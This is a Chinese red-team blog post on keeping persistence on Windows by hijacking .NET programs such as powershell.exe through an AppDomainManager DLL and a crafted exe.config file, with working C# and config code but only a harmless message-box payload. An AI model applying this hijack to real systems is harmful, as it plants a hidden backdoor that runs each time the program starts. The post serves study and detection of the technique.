 ```yaml
---
layout:     post
title:    权限维持-劫持系统.Net程序
subtitle:   权限维持-劫持系统.Net程序
date:       2020-02-07
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 权限维持
    - 红队
    - 内网渗透
---
```

# 权限维持-劫持系统.Net程序

## 简介
通过修改AppDomainManager能够劫持.Net程序。 如果劫持了系统常见.Net程序如powershell.exe的启动过程，向其添加payload，就能实现一种被动的后门触发机制。  
主要针对这一思路尝试下劫持过程，以弹框为例子。  


## 测试
先来一个基本的弹框exe。  
```
using System;
using System.Windows.Forms;

public class AppDomainManagerTest
{
    public static void Main()
    {
        MessageBox.Show("test ..");
    }
}
```
编译出来跑一下正常。  
![200207_1](/img/200207_test.png)  
然后构建一个dll的项目，用来生成一个劫持加载的dll。    
```
using System;
using System.Windows.Forms;

namespace hijack
{
    public class InjectedDomainManager : AppDomainManager
    {
        public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
        {
            base.InitializeNewDomain(appDomainInfo);
            MessageBox.Show("hijack!");
        }
    }
}
```
然后编译生成dll，将dll放到前面的exe文件目录下。  
修改xxx.exe.config文件内容。没有这个文件的话就新建一个。    
```
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.0"/>
  </startup>
    <runtime>
      <appDomainManagerType value="hijack.InjectedDomainManager" />
      <appDomainManagerAssembly
         value="hijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" />
    </runtime>
</configuration>
```
![200207_2](/img/200207_config.png)  
然后执行exe，可以看到会先加载dll，执行完后才进入征程的流程。   
![200207_3](/img/200207_hijack.png)  

## 利用到powershell中
其实不仅仅是powershell，找到可供利用的系统.Net程序，都可以尝试去劫持。这里我以powershell为例子去进行测试。  
powershell的目录：***C:\Windows\System32\WindowsPowerShell\v1.0***  
需要管理权限操作，将hijack.dll放到这个目录下，然后新建或者修改powershell.exe.config文件为上面的内容。  
保存以后。  
尝试运行powershell。  
![200207_4](/img/200207_pshijack.png)  
可以看到会弹出框。   
这也是个一个比较好的权限维持的思路，可是不足的地方也明显，同级目录下是有文件落地的，这样排查起来是很容易的。   

## 参考
[https://3gstudent.github.io/3gstudent.github.io/Use-AppDomainManager-to-maintain-persistence/](https://3gstudent.github.io/3gstudent.github.io/Use-AppDomainManager-to-maintain-persistence/)  